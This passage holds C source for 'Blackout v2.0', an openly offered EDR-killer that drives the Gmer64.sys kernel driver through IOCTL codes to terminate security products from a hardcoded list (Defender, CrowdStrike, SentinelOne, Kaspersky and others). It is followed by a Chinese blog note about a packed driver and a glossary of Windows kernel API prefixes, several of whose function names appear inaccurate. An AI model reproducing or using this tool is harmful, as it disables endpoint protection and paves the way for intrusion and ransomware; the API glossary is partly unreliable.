#define INITIALIZE_IOCTL_CODE_ALT1     0x9876C004
#define INITIALIZE_IOCTL_CODE_ALT2     0x9876C000
#define INITIALIZE_IOCTL_CODE_ALT3     0x9876C010
#define TERMINATE_PROCESS_IOCTL_CODE_ALT1 0x9876C094
#define TERMINATE_PROCESS_IOCTL_CODE_ALT2 0x9876C090
#define TERMINATE_PROCESS_IOCTL_CODE_ALT3 0x9876C0A0

// Predefined EDR Process List
static const char* edrList[] = {
    "360tray.exe", "360Safe.exe", "360leakfixer.exe", "ZhuDongFangYu.exe",
    "HipsDaemon.exe", "HipsTray.exe", "PopBlock.exe", "wsctrlsvc.exe",
    "redcloak", "secureworks", "securityhealthservice",
    "MsMpEng.exe", "NisSrv.exe", "ScepAgent.exe", "McShield.exe",
    "McTray.exe", "McUICnt.exe", "McProxy.exe", "McScript_InUse.exe",
    "Symantec", "Norton", "Kaspersky", "Bitdefender", "Avast",
    "AVG", "TrendMicro", "Sophos", "CrowdStrike", "SentinelOne",
    "CarbonBlack", "Cylance", "FireEye", "PaloAlto", "CheckPoint",
    "Fortinet", "Cisco", "Microsoft Defender", "Windows Defender",
    "Defender", "MsSense", "Sense", "MDE", "ATP", "EDR"
};

#define EDR_LIST_SIZE (sizeof(edrList) / sizeof(edrList[0]))

// Color Definitions
#define RED     "\033[31m"
#define GREEN   "\033[32m"
#define YELLOW  "\033[33m"
#define BLUE    "\033[34m"
#define MAGENTA "\033[35m"
#define CYAN    "\033[36m"
#define WHITE   "\033[37m"
#define RESET   "\033[0m"

// Log Levels
typedef enum {
    LOG_INFO,
    LOG_WARNING,
    LOG_ERROR,
    LOG_SUCCESS
} LogLevel;

// Global Variables
static HANDLE g_hDevice = INVALID_HANDLE_VALUE;
static BOOL g_verbose = FALSE;

// Function Declarations
BOOL IsInEdrList(const WCHAR* processName);
void LogMessage(LogLevel level, const char* format, ...);
BOOL InitializeDriver(void);
BOOL TerminateProcessByPid(DWORD pid);
BOOL ListProcesses(void);
BOOL KillEdrProcesses(void);
BOOL KillProcessByName(const char* processName);
DWORD GetProcessIdByName(const char* processName);
void PrintBanner(void);
void PrintUsage(const char* programName);
BOOL EnableDebugPrivilege(void);
void Cleanup(void);
BOOL CheckDriverLoaded(void);
BOOL TestDriverConnection(void);

// Check if process is in EDR list
BOOL IsInEdrList(const WCHAR* processName) {
    if (!processName) return FALSE;

    WCHAR lowerProcessName[MAX_PATH];
    wcscpy_s(lowerProcessName, sizeof(lowerProcessName) / sizeof(WCHAR), processName);
    _wcslwr_s(lowerProcessName, sizeof(lowerProcessName) / sizeof(WCHAR));

    for (size_t i = 0; i < EDR_LIST_SIZE; i++) {
        // Convert ANSI string to wide string for comparison
        WCHAR wideEdrName[MAX_PATH];
        MultiByteToWideChar(CP_ACP, 0, edrList[i], -1, wideEdrName, MAX_PATH);
        if (wcsstr(lowerProcessName, wideEdrName) != NULL) {
            return TRUE;
        }
    }
    return FALSE;
}

// Log Output Function
void LogMessage(LogLevel level, const char* format, ...) {
    va_list args;
    va_start(args, format);

    const char* color = RESET;
    const char* prefix = "";

    switch (level) {
    case LOG_INFO:
        color = BLUE;
        prefix = "[INFO]";
        break;
    case LOG_WARNING:
        color = YELLOW;
        prefix = "[WARN]";
        break;
    case LOG_ERROR:
        color = RED;
        prefix = "[ERROR]";
        break;
    case LOG_SUCCESS:
        color = GREEN;
        prefix = "[SUCCESS]";
        break;
    }

    printf("%s%s ", color, prefix);
    vprintf(format, args);
    printf("%s
", RESET);

    va_end(args);
}

// Initialize Driver
BOOL InitializeDriver(void) {
    // Try different device names
    const char* deviceNames[] = {
        "\\.\gmer",
        "\\.\gmer64",
        "\\.\Gmer64",
        "\\.\GMER64"
    };
    
    int numDevices = sizeof(deviceNames) / sizeof(deviceNames[0]);
    
    for (int i = 0; i < numDevices; i++) {
        g_hDevice = CreateFileA(
            deviceNames[i],
            GENERIC_READ | GENERIC_WRITE,
            FILE_SHARE_READ | FILE_SHARE_WRITE,
            NULL,
            OPEN_EXISTING,
            FILE_ATTRIBUTE_NORMAL,
            NULL
        );

        if (g_hDevice != INVALID_HANDLE_VALUE) {
            LogMessage(LOG_INFO, "Connected to device: %s", deviceNames[i]);
            break;
        }
    }

    if (g_hDevice == INVALID_HANDLE_VALUE) {
        DWORD error = GetLastError();
        LogMessage(LOG_ERROR, "Failed to open device driver, error code: 0x%08X", error);
        LogMessage(LOG_ERROR, "Make sure Gmer64.sys driver is loaded and running");
        return FALSE;
    }

    // Try different IOCTL codes for initialization
    DWORD ioctlCodes[] = {
        INITIALIZE_IOCTL_CODE,
        INITIALIZE_IOCTL_CODE_ALT1,
        INITIALIZE_IOCTL_CODE_ALT2,
        INITIALIZE_IOCTL_CODE_ALT3
    };
    
    const char* ioctlNames[] = {
        "INITIALIZE_IOCTL_CODE",
        "INITIALIZE_IOCTL_CODE_ALT1", 
        "INITIALIZE_IOCTL_CODE_ALT2",
        "INITIALIZE_IOCTL_CODE_ALT3"
    };
    
    int numCodes = sizeof(ioctlCodes) / sizeof(ioctlCodes[0]);
    BOOL success = FALSE;
    DWORD workingCode = 0;
    
    for (int i = 0; i < numCodes; i++) {
        DWORD input = 0; // Initialize does not require specific parameters
        DWORD output[2] = { 0 };
        DWORD bytesReturned = 0;

        LogMessage(LOG_INFO, "Trying IOCTL code: 0x%08X (%s)", ioctlCodes[i], ioctlNames[i]);
        
        BOOL result = DeviceIoControl(
            g_hDevice,
            ioctlCodes[i],
            &input,
            sizeof(DWORD),
            output,
            sizeof(output),
            &bytesReturned,
            NULL
        );

        if (result) {
            LogMessage(LOG_SUCCESS, "Driver initialized successfully with IOCTL: 0x%08X (%s)", 
                      ioctlCodes[i], ioctlNames[i]);
            workingCode = ioctlCodes[i];
            success = TRUE;
            break;
        } else {
            DWORD error = GetLastError();
            LogMessage(LOG_WARNING, "IOCTL 0x%08X failed with error: 0x%08X", ioctlCodes[i], error);
        }
    }

    if (!success) {
        LogMessage(LOG_ERROR, "All IOCTL codes failed. Driver may not be compatible or not responding.");
        LogMessage(LOG_ERROR, "Please check if the driver is properly loaded and supports these IOCTL codes.");
        CloseHandle(g_hDevice);
        g_hDevice = INVALID_HANDLE_VALUE;
        return FALSE;
    }

    return TRUE;
}

// Terminate process by PID
BOOL TerminateProcessByPid(DWORD pid) {
    if (g_hDevice == INVALID_HANDLE_VALUE) {
        LogMessage(LOG_ERROR, "Device not initialized");
        return FALSE;
    }

    // Try different IOCTL codes for process termination
    DWORD ioctlCodes[] = {
        TERMINATE_PROCESS_IOCTL_CODE,
        TERMINATE_PROCESS_IOCTL_CODE_ALT1,
        TERMINATE_PROCESS_IOCTL_CODE_ALT2,
        TERMINATE_PROCESS_IOCTL_CODE_ALT3
    };
    
    const char* ioctlNames[] = {
        "TERMINATE_PROCESS_IOCTL_CODE",
        "TERMINATE_PROCESS_IOCTL_CODE_ALT1",
        "TERMINATE_PROCESS_IOCTL_CODE_ALT2", 
        "TERMINATE_PROCESS_IOCTL_CODE_ALT3"
    };
    
    int numCodes = sizeof(ioctlCodes) / sizeof(ioctlCodes[0]);
    DWORD input = pid;
    DWORD bytesReturned = 0;

    for (int i = 0; i < numCodes; i++) {
        LogMessage(LOG_INFO, "Trying terminate IOCTL code: 0x%08X (%s)", ioctlCodes[i], ioctlNames[i]);
        
        BOOL result = DeviceIoControl(
            g_hDevice,
            ioctlCodes[i],
            &input,
            sizeof(DWORD),
            NULL,
            0,
            &bytesReturned,
            NULL
        );

        if (result) {
            LogMessage(LOG_SUCCESS, "Process terminated successfully (PID: %lu) with IOCTL: 0x%08X", 
                      pid, ioctlCodes[i]);
            return TRUE;
        } else {
            DWORD error = GetLastError();
            LogMessage(LOG_WARNING, "Terminate IOCTL 0x%08X failed with error: 0x%08X", ioctlCodes[i], error);
        }
    }

    LogMessage(LOG_ERROR, "All terminate IOCTL codes failed for PID: %lu", pid);
    return FALSE;
}

// List all processes
BOOL ListProcesses(void) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        LogMessage(LOG_ERROR, "Failed to create process snapshot");
        return FALSE;
    }

    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnapshot, &pe32)) {
        LogMessage(LOG_ERROR, "Failed to get first process");
        CloseHandle(hSnapshot);
        return FALSE;
    }

    printf("
%sProcess List:%s
", CYAN, RESET);
    printf("%-8s %-30s %s
", "PID", "Process Name", "EDR Flag");
    printf("----------------------------------------
");

    do {
        BOOL isEdr = IsInEdrList(pe32.szExeFile);
        // Convert wide char to ANSI for printf
        char ansiProcessName[MAX_PATH];
        WideCharToMultiByte(CP_ACP, 0, pe32.szExeFile, -1, ansiProcessName, MAX_PATH, NULL, NULL);
        printf("%-8lu %-30s %s
",
            pe32.th32ProcessID,
            ansiProcessName,
            isEdr ? "Yes" : "No");
    } while (Process32Next(hSnapshot, &pe32));

    CloseHandle(hSnapshot);
    return TRUE;
}

// Terminate all EDR processes
BOOL KillEdrProcesses(void) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        LogMessage(LOG_ERROR, "Failed to create process snapshot");
        return FALSE;
    }

    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnapshot, &pe32)) {
        LogMessage(LOG_ERROR, "Failed to get first process");
        CloseHandle(hSnapshot);
        return FALSE;
    }

    int killedCount = 0;

    do {
        if (IsInEdrList(pe32.szExeFile)) {
            // Convert wide char to ANSI for LogMessage
            char ansiProcessName[MAX_PATH];
            WideCharToMultiByte(CP_ACP, 0, pe32.szExeFile, -1, ansiProcessName, MAX_PATH, NULL, NULL);
            LogMessage(LOG_INFO, "Found EDR process: %s (PID: %lu)", ansiProcessName, pe32.th32ProcessID);
            if (TerminateProcessByPid(pe32.th32ProcessID)) {
                killedCount++;
            }
        }
    } while (Process32Next(hSnapshot, &pe32));

    CloseHandle(hSnapshot);

    if (killedCount > 0) {
        LogMessage(LOG_SUCCESS, "Successfully terminated %d EDR processes", killedCount);
    }
    else {
        LogMessage(LOG_INFO, "No EDR processes found");
    }

    return TRUE;
}

// Terminate process by name
BOOL KillProcessByName(const char* processName) {
    DWORD pid = GetProcessIdByName(processName);
    if (pid == 0) {
        LogMessage(LOG_WARNING, "Process not found: %s", processName);
        return FALSE;
    }

    return TerminateProcessByPid(pid);
}

// Get PID by process name
DWORD GetProcessIdByName(const char* processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        return 0;
    }

    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnapshot, &pe32)) {
        CloseHandle(hSnapshot);
        return 0;
    }

    do {
        // Convert wide char to ANSI for comparison
        char ansiProcessName[MAX_PATH];
        WideCharToMultiByte(CP_ACP, 0, pe32.szExeFile, -1, ansiProcessName, MAX_PATH, NULL, NULL);
        if (_stricmp(ansiProcessName, processName) == 0) {
            CloseHandle(hSnapshot);
            return pe32.th32ProcessID;
        }
    } while (Process32Next(hSnapshot, &pe32));

    CloseHandle(hSnapshot);
    return 0;
}

// Print Banner
void PrintBanner(void) {
    printf("%s", CYAN);
    printf("+===============================================================+
");
    printf("|                    Blackout v2.0 - C Edition                |
");
    printf("|               EDR Process Termination Tool                  |
");
    printf("|                    Powered by Gmer64.sys                    |
");
    printf("+===============================================================+
");
    printf("%s", RESET);
}

// Print Usage Instructions
void PrintUsage(const char* programName) {
    printf("Usage: %s [options] [arguments]

", programName);
    printf("Options:
");
    printf("  -p <PID>           Terminate process with specified PID
");
    printf("  -n <process_name>  Terminate process with specified name
");
    printf("  -l                 List all processes
");
    printf("  -k                 Terminate all EDR processes
");
    printf("  -t                 Test driver connection
");
    printf("  -v                 Verbose output
");
    printf("  -h                 Show this help information

");
    printf("Examples:
");
    printf("  %s -p 1234         Terminate process with PID 1234
", programName);
    printf("  %s -n notepad.exe  Terminate notepad.exe process
", programName);
    printf("  %s -l              List all processes
", programName);
    printf("  %s -k              Terminate all EDR processes
", programName);
    printf("  %s -t              Test driver connection
", programName);
}

// Enable Debug Privilege
BOOL EnableDebugPrivilege(void) {
    HANDLE hToken;
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
        return FALSE;
    }

    LUID luid;
    if (!LookupPrivilegeValueA(NULL, "SeDebugPrivilege", &luid)) {
        CloseHandle(hToken);
        return FALSE;
    }

    TOKEN_PRIVILEGES tp;
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    BOOL result = AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
    CloseHandle(hToken);

    return result;
}

// Check if driver is loaded
BOOL CheckDriverLoaded(void) {
    SC_HANDLE hSCManager = OpenSCManager(NULL, NULL, SC_MANAGER_CONNECT);
    if (hSCManager == NULL) {
        return FALSE;
    }

    SC_HANDLE hService = OpenService(hSCManager, "gmer", SERVICE_QUERY_STATUS);
    if (hService == NULL) {
        CloseServiceHandle(hSCManager);
        return FALSE;
    }

    SERVICE_STATUS serviceStatus;
    BOOL result = QueryServiceStatus(hService, &serviceStatus);
    
    CloseServiceHandle(hService);
    CloseServiceHandle(hSCManager);

    if (result && serviceStatus.dwCurrentState == SERVICE_RUNNING) {
        return TRUE;
    }

    return FALSE;
}

// Test driver connection
BOOL TestDriverConnection(void) {
    LogMessage(LOG_INFO, "Testing driver connection...");
    
    if (InitializeDriver()) {
        LogMessage(LOG_SUCCESS, "Driver connection test successful!");
        Cleanup();
        return TRUE;
    } else {
        LogMessage(LOG_ERROR, "Driver connection test failed!");
        return FALSE;
    }
}

// Cleanup Resources
void Cleanup(void) {
    if (g_hDevice != INVALID_HANDLE_VALUE) {
        CloseHandle(g_hDevice);
        g_hDevice = INVALID_HANDLE_VALUE;
    }
}

// Main Function
int main(int argc, char* argv[]) {
    PrintBanner();

    if (argc < 2) {
        PrintUsage(argv[0]);
        return 1;
    }

    // Parse command line arguments
    for (int i = 1; i < argc; i++) {
        if (strcmp(argv[i], "-h") == 0 || strcmp(argv[i], "--help") == 0) {
            PrintUsage(argv[0]);
            return 0;
        }
        else if (strcmp(argv[i], "-v") == 0) {
            g_verbose = TRUE;
        }
        else if (strcmp(argv[i], "-l") == 0) {
            if (!ListProcesses()) {
                return 1;
            }
            return 0;
        }
        else if (strcmp(argv[i], "-t") == 0) {
            if (!TestDriverConnection()) {
                return 1;
            }
            return 0;
        }
        else if (strcmp(argv[i], "-k") == 0) {
            if (!EnableDebugPrivilege()) {
                LogMessage(LOG_WARNING, "Failed to enable debug privilege, may not be able to terminate some processes");
            }

            if (!InitializeDriver()) {
                return 1;
            }

            if (!KillEdrProcesses()) {
                Cleanup();
                return 1;
            }

            Cleanup();
            return 0;
        }
        else if (strcmp(argv[i], "-p") == 0) {
            if (i + 1 >= argc) {
                LogMessage(LOG_ERROR, "Missing PID argument");
                return 1;
            }

            DWORD pid = (DWORD)strtoul(argv[++i], NULL, 10);
            if (pid == 0) {
                LogMessage(LOG_ERROR, "Invalid PID: %s", argv[i]);
                return 1;
            }

            if (!EnableDebugPrivilege()) {
                LogMessage(LOG_WARNING, "Failed to enable debug privilege, may not be able to terminate some processes");
            }

            if (!InitializeDriver()) {
                return 1;
            }

            if (!TerminateProcessByPid(pid)) {
                Cleanup();
                return 1;
            }

            Cleanup();
            return 0;
        }
        else if (strcmp(argv[i], "-n") == 0) {
            if (i + 1 >= argc) {
                LogMessage(LOG_ERROR, "Missing process name argument");
                return 1;
            }

            const char* processName = argv[++i];

            if (!EnableDebugPrivilege()) {
                LogMessage(LOG_WARNING, "Failed to enable debug privilege, may not be able to terminate some processes");
            }

            if (!InitializeDriver()) {
                return 1;
            }

            if (!KillProcessByName(processName)) {
                Cleanup();
                return 1;
            }

            Cleanup();
            return 0;
        }
        else {
            LogMessage(LOG_ERROR, "Unknown argument: %s", argv[i]);
            PrintUsage(argv[0]);
            return 1;
        }
    }

    return 0;
}
```

最近遇到使用vmp加壳的驱动，我以前怎么没想到还能这样玩呢





这是这个saogang.sys 关键的几个

`PsSetCreateProcessNotifyRoutine` ：这是 Windows 内核提供的一个函数，用于注册一个回调函数，当有新进程创建或者已存在进程被删除时，内核会调用注册的回调函数。通过这个函数，驱动程序可以监控系统中进程的创建和销毁事件，这在安全类驱动（如杀毒软件、防火墙的内核部分）中较为常见，用于实现进程监控、防护等功能 。

`IoDeleteSymbolicLink` ：用于删除符号链接，符号链接是 Windows 中一种文件系统对象，用于创建指向其他文件、目录或设备的引用。在驱动开发中，可能用于清理驱动创建的符号链接资源 。

`ObRegisterCallbacks` ：允许驱动程序注册对象管理器回调，用于监控系统中对象（如进程、线程、文件等）的创建、打开、关闭等操作。这对于需要监控系统对象活动的驱动程序（如安全监控驱动）很重要 。

`ObUnRegisterCallbacks` ：与 `ObRegisterCallbacks` 相对应，用于注销之前注册的对象管理器回调 。

`PsGetProcessId` ：获取指定进程的进程 ID，在驱动程序中，可能用于识别和区分不同的进程，方便进行后续的操作，如进程权限检查、资源分配等 。

​

Io 前缀（Input/Output 子系统）  
所属模块：输入输出子系统（I/O Subsystem），核心作用：处理设备驱动与 I/O 操作的核心交互，包括设备对象管理、I/O 请求（IRP）处理、符号链接管理等，是设备驱动开发的基础。  
IoCreateDevice：创建设备对象（驱动程序代表硬件设备的核心载体）IoDeleteDevice：删除不再使用的设备对象，释放资源IoCallDriver：将 I/O 请求包（IRP）传递给目标驱动程序，完成请求转发IoCreateSymbolicLink：创建设备符号链接，让用户态程序通过友好名称访问内核设备

Zw 前缀（Native API 内核态入口）  
所属模块：原生 API（Native API）内核态调用层，核心作用：内核模式下直接访问系统服务的接口，与用户态 Nt 函数一一对应，避免用户态 - 内核态切换开销，支持文件、进程、注册表等核心操作。  
ZwCreateFile：内核态创建 / 打开文件对象ZwOpenProcess：内核态打开指定进程，获取操作句柄ZwQuerySystemInformation：查询系统信息（如进程列表、内存使用）ZwSetValueKey：内核态修改注册表项的值

Ps 前缀（Process and Thread 管理）  
所属模块：进程与线程管理子系统，核心作用：负责内核中进程、线程的创建、销毁、状态控制及事件监控，是进程 / 线程操作的核心接口。  
PsCreateSystemThread：创建系统线程（运行于内核地址空间，不关联用户态进程）PsTerminateProcess：终止指定进程及其所有线程PsSuspendThread/PsResumeThread：挂起 / 恢复指定线程PsSetCreateProcessNotifyRoutine：注册进程创建 / 删除回调，用于监控系统进程变化（常见于安全驱动）

Ex 前缀（Executive 执行体）  
所属模块：Windows 执行体（Executive）层，核心作用：提供内核核心基础功能，包括内存池管理、同步资源初始化、链表操作等，是内核组件的 “通用工具库”。  
ExAllocatePool：分配内核内存池（需注意后续版本的 ExAllocatePool2 替代方案）ExFreePool：释放通过 ExAllocatePool 分配的内存ExInitializeResourceLite：初始化轻量级同步资源，用于多线程资源保护

Ke 前缀（Kernel 内核核心层）  
所属模块：内核（Kernel）核心层，核心作用：处理内核最底层功能，包括线程调度、中断管理、同步对象（事件、互斥体）操作，是系统调度与同步的核心。  
KeInitializeEvent：初始化事件对象（用于线程间同步）KeWaitForSingleObject：等待单个内核对象（如事件、互斥体）触发KeSetEvent：将事件对象设置为 “触发状态”，唤醒等待线程

Ob 前缀（Object Manager 对象管理器）  
所属模块：内核对象管理器（Object Manager），核心作用：管理所有内核对象（进程、线程、文件、设备等）的生命周期，包括引用计数、对象查找、对象打开等，确保对象安全访问。  
ObReferenceObject：增加内核对象的引用计数（防止对象被意外释放）ObDereferenceObject：减少对象引用计数（计数为 0 时对象被销毁）ObOpenObjectByName：通过对象名称（如设备名、进程名）打开内核对象，获取操作句柄

Mm 前缀（Memory Manager 内存管理器）  
所属模块：内存管理器（Memory Manager），核心作用：处理虚拟内存、物理内存、I/O 空间映射等内存相关操作，是内核内存管理的核心接口。  
MmAllocateVirtualMemory：在指定进程（内核 / 用户态）虚拟地址空间分配内存  
MmFreeVirtualMemory：释放虚拟内存，回收地址空间MmMapIoSpace：将硬件 I/O 空间映射到内核虚拟地址，方便驱动访问硬件寄存器

Cm 前缀（Configuration Manager 配置管理器）  
所属模块：注册表配置管理器（Configuration Manager），核心作用：提供内核态访问、操作注册表的接口，支持注册表项的打开、查询、修改、关闭等。  
CmOpenKey：打开指定路径的注册表项（如 RegistryMachineSYSTEM）CmQueryValueKey：查询注册表项的具体值（如驱动配置参数）CmCloseKey：关闭已打开的注册表项，释放句柄资源

Rtl 前缀（Run-Time Library 内核运行时库）  
所属模块：内核模式运行时库，核心作用：提供内核态的基础 “工具函数”，功能类似用户态 C 标准库，支持内存操作、字符串处理、临界区初始化等。  
RtlCopyMemory：内存复制（类似用户态 memcpy）RtlCompareString：字符串比较（支持大小写敏感 / 不敏感模式）RtlInitializeCriticalSection：初始化临界区对象，用于内核线程同步

Fs 前缀（File System 文件系统）  
所属模块：文件系统子系统（File System Subsystem），核心作用：提供文件系统通用功能，支持文件系统驱动的内存管理、结构初始化、数据处理等。  
FsRtlAllocatePool：文件系统专用内存分配（针对文件系统场景优化）FsRtlFreePool：释放文件系统专用内存FsRtlSetupAdvancedHeader：初始化文件系统高级头结构（用于文件系统元数据管理）

Nt 前缀（Native API 用户态入口）  
所属模块：原生 API（Native API）用户态调用层，核心作用：用户态程序通过系统调用（Syscall）进入内核的 “入口函数”，与内核态 Zw 函数功能一致，仅调用上下文不同。  
NtCreateFile：用户态创建 / 打开文件（通过系统调用陷入内核，最终调用与 ZwCreateFile 相同的内核服务）NtOpenProcess：用户态打开指定进程（需具备对应权限）

Hal 前缀（Hardware Abstraction Layer 硬件抽象层）  
所属模块：硬件抽象层（HAL），核心作用：隔离硬件差异，提供与硬件无关的抽象接口，让内核 / 驱动无需适配具体硬件型号（如 CPU、总线、显示设备）。  
HalInitializeProcessor：初始化处理器（针对多处理器系统的核心初始化）HalGetBusData：获取总线设备信息（如 PCI 总线设备的配置数据）HalResetDisplay：重置显示设备，恢复显示功能（用于系统异常后的硬件恢复）
